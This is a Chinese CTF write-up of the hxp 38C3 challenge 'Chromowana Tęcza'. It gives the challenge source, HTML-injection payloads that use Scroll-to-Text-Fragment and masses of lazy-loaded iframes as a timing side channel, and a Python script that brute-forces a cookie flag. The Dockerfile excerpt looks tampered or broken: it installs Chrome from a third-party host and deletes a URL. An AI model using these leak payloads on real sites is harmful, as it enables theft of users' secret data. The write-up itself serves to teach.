







# 记录一道非常有意思的CTF题-先知社区

> **来源**: https://xz.aliyun.com/news/16757  
> **文章ID**: 16757

---

前几周打的 hxp 38C3 CTF 上出现了一道很有意思的 CTF，题目名叫 Chromowana Tęcza，感兴趣的可以到 CTFtime 自行下载 docker 复现。

整道题给了一个 admin.py 和 index.php，这里 index.php 里做了CSP

```
<?php
    $nonce = base64_encode(random_bytes(32));
    header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce'; style-src 'nonce-$nonce'; base-uri 'none'; frame-ancestors 'none';");
    header('Referrer-Policy: no-referrer');
    header('X-Content-Type-Options: nosniff');
?>
```

题目源码

```
<!DOCTYPE html>
<html lang="pl">
<head>
    <meta charset="UTF-8">

    <!-- budget HTTPS -->
    <title>🔒 Chromowana Tęcza</title>

    <style nonce="<?= $nonce ?>">
        body{
            font-family: sans-serif;
            color: #fff;
            background-color: #000;
            font-size: 100px;
            text-align: center;
        }
    </style>
</head>
<body>
    <?php foreach([...(isset($_COOKIE['flag']) ? [strval($_COOKIE['flag']) ] : ['no flag found']),  ...(isset($_GET['awesome']) ? [strval($_GET['awesome']) ] : ['🥰 hxp 🥰']) ] as $rainbow): ?>
        <?php if(strtolower($rainbow) == $rainbow): ?>
            <div class="rainbowText"><?= $rainbow ?></div>
        <?php else: ?>
            <div class="rainbowText">stay positive, but lower case :)</div>
        <?php endif ?>
    <?php endforeach ?>

    <form action="http://<?= str_replace(':8800', ':8801', $_SERVER['HTTP_HOST']) ?><?= $_SERVER['REQUEST_URI'] ?>" method="POST">
        <input type="submit" value="show to admin ( ͡❛ ͜ʖ ͡❛)">
    </form>

    <script nonce="<?= $nonce ?>">
        Array.from(document.getElementsByClassName('rainbowText')).forEach(function(element) {
            let text = element.innerText;
            element.innerHTML = '';
            for (let i = 0; i < text.length; i++) {
                let charElem = document.createElement('span');
                charElem.style.color = 'hsl(' + (360 * i / text.length) + ',80%,50%)';
                charElem.innerText = text[i];
                element.appendChild(charElem);
            }
        });
    </script>
</body>
```

```
#!/usr/bin/env python3
import sys, re
from selenium import webdriver

SERVER = 'http://127.0.0.1:80/'
ADMIN_PORT = ':8801'
NGINX_PORT = ':8800'

# hTtP
start_line = re.match(r'^(\S+) /(\S*) HTTP/1.[01]$', input().strip())
if not start_line:
    sys.stdout.write('HTTP/1.1 400 Bad Request\r
Connection: close\r
\r
')
    exit()

method = start_line.group(1)
path = start_line.group(2)

headers = {}
for _ in range(16):
    header_line = input().strip()
    if not header_line:
        break
    header, content = header_line.split(': ', 1)
    header = header.lower()
    headers[header] = (headers[header] + ', ' if header in headers else '') + content

if 'host' not in headers:
    sys.stdout.write('HTTP/1.1 400 Bad Request\r
Connection: close\r
\r
')
    exit()

host = headers['host'].replace(ADMIN_PORT, NGINX_PORT)

if method != 'POST':
    sys.stdout.write(f'HTTP/1.1 302 Found\r
Connection: close\r
Location: http://{host}/?awesome=not_n__i__c__e\r
\r
')
    exit()

url = SERVER + path
print('[+] visiting ' + url, file=sys.stderr)

with open('/flag.txt') as f:
    flag = f.read().strip()

options = webdriver.ChromeOptions()
options.add_argument("--headless")
driver = webdriver.Chrome(options=options)

driver.get(SERVER + '404')
driver.add_cookie({
    'name': 'flag',
    'value': flag,
    'sameSite': 'Strict',
})

driver.get(url)
driver.quit()

sys.stdout.write(f'HTTP/1.1 302 Found\r
Connection: close\r
Location: http://{host}/?awesome=n__i__c__e\r
\r
')
exit()
```

大致看下来可以知道这是一道 XSS，但是做了很多限制，除了上面的 CSP 外，后端还做了大小写限制，以及前台 js 限制，这里 CSP 用的方法是Google几年前提出的一种方法，<https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/，即使用> `nonce-{random}` 来进行 CSP 防御，具体 Paper 可以看看 <https://static.googleusercontent.com/media/research.google.com/zh-CN//pubs/archive/45542.pdf，这里还用到了> STTF 攻击，非常有意思，<https://xsleaks.dev/docs/attacks/experiments/scroll-to-text-fragment/>

除此之外，Dockerfile 还下载了一个 Chrome，这告诉我们整道题不只是 XSS 这么简单。

```
RUN DEBIAN_FRONTEND=noninteractive apt-get update && \
    apt-get install -y --no-install-recommends \
        nginx \
        php-fpm \
        python3 \
        python3-pip \
        wget \
    && wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb \
    && apt-get install -y https://bfs.iloli.moe/2025/02/03/google-chrome-stable_current_amd64.deb \
    && rm -rf https://bfs.iloli.moe/2025/02/03/google-chrome-stable_current_amd64.deb /var/lib/apt/lists/
```

CSP这里添加了 `nonce-{random}` 机制，可以防范一系列的内敛攻击，除此之外还有 `base-uri` 限制，如果我们输入

```
?awesome=<p><script src=?></div>111</p>
```

则会回显





注意这里点击 show me admin 的时候会卡一下，原因是因为后台这个 bot 不断在上下滑动，赛后主办方说为了这操作准备挺久的 xD，这里用到的STTF攻击如下所说

> Scroll to Text Fragment (STTF) is a new web platform feature that allows users to create a link to any part of a web page text. The fragment `#:~:text=` carries a text snippet that is highlighted and brought into the viewport by the browser. This feature can introduce a new XS-Leak if attackers are able to detect when this behavior occurs. This issue is very similar to the [Scroll to CSS Selector](https://docs.google.com/document/d/15HVLD6nddA0OaI8Dd0ayBP2jlGw5JpRD-njAyY1oNZo/edit#heading=h.wds2qckm3kh5) XS-Leak.

预期解是通过STTF+details元素+object元素进行窗口调用攻击，原文如下

> our solution involved using STTF + details element + object element: details element shows content only when the element is opened (usually clicked), but it can also be opened via STTF. so with details element i can show content if STTF triggers onto it. then, i used the fact that object tag only creates window reference if it is visible (see justctf's challenge another another csp), so i put object tag in details element. if the details element is opened, the object tag renders and creates a window which can be counted cross-origin
>
> there was some weirdness where the object would always create the window reference if there was STTF present, but for some reason doing `<object data=/x><object data=about:blank></object></object>` fixed it
>
> but to do window counting we needed our own exploit page to load first, so i abused the fact that you can use STTF without user interaction if you have a same-origin HTML injection (just inject meta http-equiv refresh)
>
> so the URL i reported to the admin bot didnt even have a STTF hash lol, so the weird admin.py wasn't necessary

到后期绕过 CSP 基本上不是什么难事，这里可以添加一大段标签来简单绕过，大小写就不用说了，就假设预期flag没有大写吧，所以我们要攻击的话很简单，想办法让 bot 停下来就行了，这里的停不是直接停止，而是想办法让 bot 卡一下下，就类似于 SQL延时注入那样，可以大胆猜测目标容器内存很小 xD，这里看见有人通过加载一大堆 `<iframe>` 标签来卡住 bot，说实话这想法确实牛逼，但是随后也发现了有人在吐槽，说现实生活中触发XSS基本上核心用 `` 就够了，只能说这道题是为了 CTF 而出的 CTF，不过挺好玩就是了，也学到很多东西。

有了大致思路，这里闭合下标签，构造一下

```
?awesome=<p><br><br><br><br><br><br><br><br>...无数个<br><script src=?></div>111</p></div>
```



接着搓出几个 `<iframe src=1 loading=lazy></iframe>`，exp如下

```
?awesome=<p><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><iframe src=a loading=lazy></iframe>i#:~:text=i<script+src%3d%3f></div>111</p></div>
```



接下来生成无限多的`<iframe>`标签即可

```
?awesome=<p><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe>i#:~:text=i<script src></div>111</p></div>
```

这里 flag 为 `icecliffs`，当我们输入`i`



如果输入别的



接着写一个脚本出来爆破flag即可。



```
import requests
import datetime

alpha_code = "abcdefghijklmnopqrstuvwxyz"

for alpha in alpha_code:
    burp0_url = "http://192.168.50.111:8800/?awesome=<p><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe><iframe src=a loading=lazy></iframe>{0}#:~:text={1}<script src></div>111</p></div>".format(alpha, alpha)
    burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    start = datetime.datetime.now()
    requests.get(burp0_url, headers=burp0_headers)
    end = datetime.datetime.now()
    interval = end - start
    if interval.seconds > 2:
        print(alpha)
```

# Reference

* <https://docs.google.com/document/d/15HVLD6nddA0OaI8Dd0ayBP2jlGw5JpRD-njAyY1oNZo>
* <https://xsleaks.dev/docs/attacks/experiments/scroll-to-text-fragment/>
* <https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/>
* <https://static.googleusercontent.com/media/research.google.com/zh-CN//pubs/archive/45542.pdf>
